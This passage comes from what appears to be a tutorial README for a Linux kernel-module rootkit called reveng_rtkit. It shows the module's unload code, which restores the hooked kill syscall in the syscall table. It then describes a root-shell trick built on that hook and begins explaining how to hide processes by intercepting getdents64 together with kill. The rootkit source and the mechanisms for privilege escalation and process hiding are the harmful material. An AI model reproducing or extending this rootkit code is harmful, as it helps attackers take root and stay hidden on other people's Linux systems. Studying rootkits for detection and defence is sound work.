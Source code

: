                 unprotect_memory();
                printk(KERN_INFO "\t\t\t\t\t\t back to normal");

                // Editing the sycall table back to normal, i.e. with original syscall: "kill" syscalls.
                __sys_call_table[__NR_kill] = (unsigned long) orig_kill;

                protect_memory();

                printk(KERN_INFO "[-] reveng_rtkit: Unloaded \n");
                printk(KERN_INFO "=================================================\n");
              }

              module_init(rootkit_init);
              module_exit(rootkit_exit);

              MODULE_LICENSE("GPL");
              MODULE_AUTHOR("reveng007");
              MODULE_DESCRIPTION("Modifying Stage of reveng_rtkit");
              MODULE_VERSION("1.0");
              ```
              Now, lets see it in action:

              ![](https://github.com/reveng007/reveng_rtkit/blob/main/img/Blog13.png?raw=true)

              We can see 3 things:
              1. In ***fish shell***, this mechanism of getting root shell is not working, I don't really know why... (<ins>If any viewers seeing this, have any solution to this problem, please don't hesitate to do a PR to my repo but before that please visit, [idea](https://github.com/reveng007/reveng_rtkit#note-1)</ins>).
              2. In ***bash shell***, it is working as expected.
              3. In ***sh shell***, it is working as expected too.

      2. **getdents64** syscall: [elixir.bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/syscalls.h#L487)
	  &nbsp;
          I actually wanted to hide ongoing processes and I got that idea for hiding processes from [source1: R3x/linux-rootkits](https://github.com/R3x/linux-rootkits#features-descriptions), but I was unable to understand that portion of code which was linked. I then searched through other [resource links](https://github.com/reveng007/reveng_rtkit#resources-that-helped-me) that I had. I found out this: [source2](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.5.1.). I will be implementing this mechanism via **kill syscall** (or sys_kill) as I did earlier.
          
          But here, we are actually intercepting two syscalls simultaneously,
          1. ***kill syscall***: To hide pid of any process, cmd: _`kill -32 <pid>`_.
          2. ***getdents64 syscall***: Please go through this [link](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.5.1.) (it is the same previous link) and check the last 2 paragraphs of it. It will say that, `ps` command only just does an 'ls' on "`/proc/`" directory.
          &nbsp;
          Now then, what is the working machanism of `ls`?
          Visit: [gist-amitsaha](https://gist.github.com/amitsaha/8169242#how-does-ls-do-what-it-does). It says that, after the execution of `ls`, it in turn invokes the `getdents()` system call, which is responsible to read the directory contents.
          Let's check it.
              ```diff
              $ strace ls 1>/dev/null 2>/tmp/ls.strace; cat /tmp/ls.strace | cut -d'(' -f1 | sort -u
